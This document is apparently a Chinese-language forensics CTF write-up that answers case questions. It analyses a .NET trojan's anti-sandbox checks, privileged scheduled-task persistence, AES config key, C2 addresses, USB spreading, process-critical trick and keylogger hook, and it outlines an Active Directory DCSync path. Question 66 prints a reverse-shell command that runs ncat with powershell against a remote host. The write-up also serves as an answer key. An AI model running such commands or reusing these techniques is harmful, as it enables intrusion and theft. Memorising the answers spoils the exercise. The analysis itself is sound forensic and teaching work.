2. Account Operators 对 FILESERVER.XIAORANG.LAB 有 GenericAll 权限（可完全控制）
    
3. FILESERVER 的 PrimaryGroupSID 是 Domain Controllers(-516)，且属于 Enterprise Domain Controllers(S-1-5-9)
    
4. Domain Controllers 对域有 GetChangesAll 权限，Enterprise Domain Controllers 有 GetChanges 权限 → 组合实现 DCSync
    

5. 早起王在PC中记录过自己的犯罪动机并对其进行加密，请使用社工的方式破解加密文件，并提交密码【答案格式:aabe3**】

  

6. 早起王曾给倩倩发送过一封钓鱼邮件，请找到并计算附件MD5值【答案格式:字母不区分大小写】

8172f0ac49a2742083571a34dcbfe772



54. 接上题，编译木马使用的.NET版本是多少？【答案格式:1.1.45141】

**4.0.30319**

dnspy导出项目文件后丢给ai

1. 读取 `xWmDDA.csproj`：`<TargetFrameworkVersion>v4.0</TargetFrameworkVersion>`，`ToolsVersion="4.0"`
    
2. 读取 `xWmDDA.sln`：Solution Format Version 11.00（Visual Studio 2010）
    
3. 读取 `AssemblyInfo.cs`：伪装为 "Adobe Installer"，版本号 2.12.0.20（这是程序集自身版本，非 .NET 版本）
    

结论

编译木马使用的 .NET 版本为 **.NET Framework** **4.0**，完整版本号为 **4.0.30319**

55. 接上题，木马中有多少反沙箱和反调试的检测逻辑？【答案格式:6】

5

在入口函数 `AuPSZXXVSMF0DQRCvC2rt5MfcrYC48o7KO1SI69og2JLhf02Th6Xma2HOysY()` 中发现 **5** 个独立的反沙箱/反调试检测逻辑：

1. **VM****检测**（反沙箱）— WMI查询检测 Hyper-V/QEMU/VirtualBox
    
2. **CheckRemoteDebuggerPresent**（反调试）— 检测远程调试器附加
    
3. **Sandboxie****检测**（反沙箱）— GetModuleHandle("SbieDll.dll")
    
4. **Windows XP检测**（反沙箱）— OS名称包含"xp"
    
5. **托管****IP****检测**（反沙箱）— ip-api.com 查询是否为数据中心IP
    

命中任一检测 → `Environment.FailFast(null)` 立即崩溃退出。

注：RtlSetProcessIsCritical 和 Process.EnterDebugMode 属于反终止/进程保护，不属于检测逻辑。

56. 接上题，木马为获得提升的权限执行而创建的计划任务名称是什么？【答案格式:Netlogon】

`WmiPrvSE`

1. 在入口函数中找到 `schtasks /create /f /RL HIGHEST /sc minute /mo 1 /tn "..." /tr "..."`
    
2. 任务名称来自 `Path.GetFileNameWithoutExtension(EB5J4sIzfH74...)`
    
3. 该变量初始值为 `"sJHKF5x7kjxy85oLMym05A=="` (Base64 + AES-ECB 加密)
    
4. 使用密钥 MD5("8xTJ0EKPuiQsJVaT") 扩展为 32 字节解密
    
5. 解密结果: `WmiPrvSE.exe`
    
6. GetFileNameWithoutExtension → `WmiPrvSE`
    

7. 接上题，木马使用哪种加密算法来加密或混淆其配置数据？【答案格式:BASE64】

AES

配置数据解密函数位于 `yEA8oSg5e02FNWc6DpGE.f5Mo9y1FK1yJy4poW9CE()`:

- 使用 `RijndaelManaged`（即 AES）ECB 模式
    
- 密钥: MD5("8xTJ0EKPuiQsJVaT") 扩展为 32 字节 (AES-256)
    
- 配置值以 Base64 编码存储，解密时先 Base64 解码再 AES-ECB 解密
    

58. 接上题，为了获取其加密算法的某个参数，木马使用一个硬编码字符串作为输入，这个硬编码字符串的值是多少？【答案格式:uwbf4wNfw】

8xTJ0EKPuiQsJVaT

在配置类 `NB2mi1...` 中定义了硬编码字符串：

```Plain
DhMybcleyUJ8... = "8xTJ0EKPuiQsJVaT"
```

解密函数中该字符串被传入 MD5 哈希函数，生成的摘要扩展为 32 字节作为 AES-256-ECB 的密钥。

59. 接上题，木马回连的ip地址有哪些？【答案格式:按照木马中原始的顺序写入,答案用,隔开,格式;114.114.114.114,8.8.8.8,1.1.1.1】

156.238.239.253,66.175.239.149,185.117.249.43

1. 回连地址存储在 `NB2mi1...ZIDZvDLAFbRY...` 字段
    
2. 初始值: `"b7lP9DKXK17yU4FBIMvdZYYT7q1ogMGVrgjUqWnzqLxMXw3GIeVZpids5gIz2YZu"`
    
3. AES-256-ECB 解密后得到逗号分隔的IP列表
    
4. 木马运行时随机选择一个IP进行连接
    

5. 接上题，木马回连的C2通信端口是多少？【答案格式:11451】

7000

配置字段 `PjOzPaAZem6Y...` 密文 `"3qBjH4yDUHjhZBxWK56eYw=="` 解密后为 `7000`。

61. 接上题，该木马通过将自身复制到可移动设备上来传播，在每个受感染设备上创建的新副本的名称是什么？【答案格式:dwm.exe】

`USB.exe`

USB传播逻辑在 `VRti6vhPYugo...cs` 中：

1. 检测可移动驱动器 (DriveType.Removable)
    
2. 将自身复制为 `{盘符}\USB.exe`
    
3. 设置 Hidden + System 属性隐藏文件
    
4. 将原有文件/文件夹设为隐藏，创建同名 .lnk 快捷方式（先运行木马再打开原文件）
    

配置字段 `s6qNUlBh1I6DXfxJ...` 密文 `"lXEVYeoDw31nYYF2ts9aUQ=="` 解密为 `USB.exe`

62. 接上题，木马用来检测其是否在沙盒环境中运行的DLL的名称是什么？【答案格式:v50.dll】

`SbieDll.dll`

在 `2roByDJH6Zwp...()` 函数中，使用 `GetModuleHandle("SbieDll.dll")` 检测 Sandboxie 沙箱环境。

`SbieDll.dll` 是 Sandboxie 沙箱软件注入到受沙箱保护进程中的核心DLL。如果该DLL存在于当前进程中，说明程序正在 Sandboxie 沙箱中运行。

63. 接上题，木马操纵的用于控制Windows资源管理器中隐藏项目可见性的注册表项名称是什么？【答案格式:AAAabe3】

ShowSuperHidden

在 USB 传播模块中，木马修改注册表：

- 路径: `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced`
    
- 键名: `ShowSuperHidden`
    
- 操作: 将值从 1 改为 0（禁止显示受保护的操作系统文件）
    

这使得设为 Hidden + System 属性的 USB.exe 在 Windows 资源管理器中不可见。

64. 接上题，木马使用哪个API将其进程标记为关键进程？【答案格式:WNetAddConnection】

RtlSetProcessIsCritical

在 `ke48iewt5U3eoIMbjLCt.cs` 中：

```Plain
[DllImport("NTdll.dll", EntryPoint = "RtlSetProcessIsCritical")]
```

调用 `RtlSetProcessIsCritical(true, ...)` 将进程标记为系统关键进程。

- 配合 `Process.EnterDebugMode()` 获取调试权限后调用
    
- 效果: 如果用户/杀软尝试终止该进程，系统将触发蓝屏(BSOD)
    

65. 接上题，木马使用哪个API来捕获用户输入？【答案格式:WNetAddConnection】

SetWindowsHookEx

在键盘记录模块 `kJx6L3azGytvvlpO5g4M...cs` 第175行：

```C#
[DllImport("user32.dll", CharSet = CharSet.Auto, EntryPoint = "SetWindowsHookEx", SetLastError = true)]
```

木马使用 `SetWindowsHookEx` 安装低级键盘钩子（WH_KEYBOARD_LL），捕获用户所有按键输入并记录到日志文件。

66. 请分析倩倩的PC镜像，倩倩的电脑曾被api投毒过，请找出投毒后执行的恶意命令【答案格式:snd.exe 172.0.0.1 22-L be?16】

ncat.exe 156.238.239.253 1314 -e powershell



  

67. 请分析倩倩的PC内存镜像，识别当前正在运行且持有微信数据库解密密钥的微信进程，并提取该进程的进程标识符(PID)？【答案格式:123414】

**10892**



  

68. 请分析倩倩的PC内存镜像，请尝试解密微信数据库并写出message_0.db对应的微信密钥？【答案格式:60e248c9079f4bc14e256e0b65495e8688d7b342643de84a5f417f4097c9c792】

  

69. 请分析倩倩的PC内存镜像，请找到正在运行的木马进程的进程标识符(PID)【答案格式:1233】

**7348**

同上

70. 请分析倩倩的PC内存镜像，请找到正在运行的木马进程的创建时间(UTC)？【答案格式:2026-01-01 01:11:11】

**2026-04-03 01:46:44**

71. 请分析倩倩的PC内存镜像，结合木马分析找出内存中回连的C2木马服务器的真实ip？【答案格式:127.0.0.1:8080】

`156.238.239.253:7000`

木马网络连接 (PID 7348, Haimuniu_VPN_C)

|                 |      |            |         |            |
| --------------- | ---- | ---------- | ------- | ---------- |
| 远程IP            | 端口   | 状态         | 时间      | 用途         |
| 208.95.112.1    | 80   | CLOSE_WAIT | 1:46:47 | IP查询服务(侦察) |
| 156.238.239.253 | 7000 | SYN_SENT   | 1:48:06 | C2回连       |